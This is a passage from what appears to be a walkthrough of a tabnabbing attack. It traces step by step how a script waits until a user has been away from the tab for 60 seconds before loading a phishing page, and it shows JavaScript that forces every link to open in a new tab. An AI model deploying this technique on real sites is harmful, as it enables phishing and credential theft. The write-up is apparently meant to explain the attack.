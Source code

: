 ### Why This Works

**User switches away:**

```
t=0s:  document.hidden = true
       v() called
       a = 1 (away flag set)
       s() called
       setInterval starts

t=1s:  a=1, ++t=1 (1 < 60, continue)
t=2s:  a=1, ++t=2 (2 < 60, continue)
...
t=60s: a=1, ++t=60 (60 >= 60, load phishing page!)
```

**User returns before 60 seconds:**

```
t=0s:  document.hidden = true, a=1, timer starts
t=1s:  ++t=1
t=2s:  ++t=2
...
t=30s: ++t=30
t=30s: document.hidden = false
       v() called
       a = 0 (away flag cleared)
       t = 0 (counter reset)
       clearInterval(i) (timer stopped)

t=31s: Interval fires, but a=0, so nothing happens
```

## Stuck Point #2: Link Modification

The attack also required ensuring all links opened in new tabs. My first attempt:

```javascript
function modifyLinks() {
  var links = document.querySelectorAll("a");
  links.forEach(function (link) {
    link.setAttribute("target", "_blank");
  });
}

// Run once on page load
modifyLinks();
```

**Problem:** This only modified links that existed when the script ran. If the page dynamically added links later (via AJAX, user interaction, etc.), they wouldn't be modified.

### Testing Dynamic Links
